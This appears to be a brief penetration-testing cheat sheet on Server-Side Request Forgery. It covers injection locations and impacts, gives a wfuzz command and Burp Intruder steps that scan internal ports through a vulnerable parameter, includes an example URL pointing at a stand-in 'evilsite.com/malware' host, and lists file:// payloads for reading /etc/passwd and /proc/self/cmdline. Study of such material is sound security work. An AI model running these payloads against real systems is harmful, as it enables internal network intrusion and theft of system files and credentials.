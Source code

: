 # Server-Side Request Forgery (SSRF)

## Types:

### 1: Regular

### 2: Blind

# Locations:

### 1: When a full URL is used in a parameter in the address bar 

    https://site.com/form?server=http://evilsite.com/malware

### 2: A hidden field in a form (View page source)

### 3: A partial URL such as just the hostname

### 4: Only the path of the URL

# IMPACT

### 1: Access to unauthorized areas

### 2: Access to customer/organizational data

### 3: Ability to scale to internal networks

### 4: Reveal authentication tokens/credentials

# Check for internal services on a machine via SSRF

## WFUZZ

    wfuzz -c -z range,1-65535 http://TARGET_IP/url.php?path=127.0.0.1:FUZZ

## Burpsuite

#### 1) Run burpsuite

#### 2) Insert http://127.0.0.1/ (localhost value) on a field that accepts this kind of input

#### 3) Send to burpsuite intruder

#### 4) Attack type: Sniper. Then fuzz the "http://127.0.0.1:$port$" for finding other internal services running on the machine

#### 5) Set number fuzzing to 65535 (Runs through all port numbers)

#### 6) Start the attack

### TIP: If you find yourself some files with SSRF, don't forget to check their contents by viewing the page source!

## Important Files to check out with SSRF:

 - file:///etc/passwd

 - file:///proc/self/cmdline
